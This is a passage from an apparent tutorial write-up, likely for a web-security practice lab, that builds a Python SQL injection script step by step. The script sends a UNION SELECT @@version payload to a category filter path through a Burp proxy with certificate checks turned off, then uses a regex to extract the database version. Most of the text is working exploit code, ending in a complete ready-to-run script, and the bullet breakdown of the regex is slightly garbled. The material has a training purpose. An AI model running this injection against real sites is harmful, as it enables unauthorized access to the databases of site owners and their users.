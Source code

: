 
## What the script needs to do
 
### Take user input that will..
1. Build the request, using the GET method,
2. Add the supplied URL 
3. Then add the file path 
4. Append the payload to the very end as the query/injection
5. Do Not verify certificates
6. Use the burp proxy to log the requests made using this script
```
r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
```


**For the payload, the pound sign # at the end of NULL is URL encoded to be correctly interpreted in the query**
```
sql_payload = "' UNION SELECT @@version, NULL%23"
```


**The path**
```
 path = "/filter?category=Accessories"
```


**Use BeautifulSoup to parse the html**
```
soup = BeautifulSoup(res, 'html.parser') # parses the response
```


**Set the response variable and store it's response value**
```
res = r.text # set the response variable.
```


**Create a regular expression that will look for the following:**

* any number of characters      `.*\`
* two digits                    `{d{1,2}}`
* a period                      `\.\` 
* two digits                    `{d{1,2}}`
* a period                      `\.\`
* two digits                    `{d{1,2}}`
* and any number of characters  `.*`
  
```
soup.find(text=re.compile('.*\d{1,2}\.\d{1,2}\.\d{1,2}.*'))
```
</br>

**The completed exploit script**
```
#!/usr/bin/env python3

import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_version(url):
    path = "/filter?category=Accessories"
    sql_payload = "' UNION SELECT @@version, NULL%23"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    soup = BeautifulSoup(res, 'html.parser')
    # use https://regex101.com/ to confirm your regex if needed.
    version = soup.find(text=re.compile('.*\d{1,2}\.\d{1,2}\.\d{1,2}.*'))
    if version is None:
        return False
    else:
        print("[+] The database version is: " + version)
        return True

def main():
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" %sys.argv[0])
        sys.exit(-1)

    print("[+] Dumping the version of the database...")
    if not exploit_sqli_version(url):
        print("[-] Unable to dump the database version.")


if __name__ == "__main__":
    main()
```
